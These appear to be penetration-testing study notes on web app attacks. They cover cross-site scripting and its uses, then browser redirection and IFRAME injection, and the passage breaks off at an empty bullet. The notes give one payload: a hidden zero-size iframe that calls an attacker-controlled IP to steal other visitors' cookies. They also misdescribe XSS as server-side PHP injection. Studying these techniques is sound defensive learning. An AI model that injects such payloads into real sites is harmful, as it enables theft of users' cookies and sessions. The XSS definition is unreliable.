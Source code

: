 # 7. Web App Attacks

* Most of the attacks in web are generally from inside of the organization.
* And most of the attacks are web app attacks.

## 1\) Cross Site Scripting \(XSS\) 

* Uses of XSS attacks
  * cookie stealing
  * authentication bypass
  * redirecting the victim’s browser to a malicious HTML page
  * etc
* XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format.
* Like injecting a malicious PHP code inside a PHP page. Such that the malicious code runs on the server.
* XSS vulnerabilities go hand in hand with client side attacks.
* Usually remote shell got in such way of exploit have user "www-data".

### 1.1 Browser Redirection and IFRAME Injection

* Uses
  * Client side attacks
  * Information gathering script
* Given an environment which is not the user input are not sanitized.
* We first inject malicious code in the webpage as a script. The webpage could be using javascript, PHP, etc. We inject our code in these scripts.
* To steal **cookie or such information of other client** browsing the same website. We inject a reverse connection scripts
  * `<iframe SRC="http://192.168.1.1:80/report" height = "0" width = "0"></iframe>`
  * where 192.168.1.1 is the attacker system IP address for reverse connection.
* 
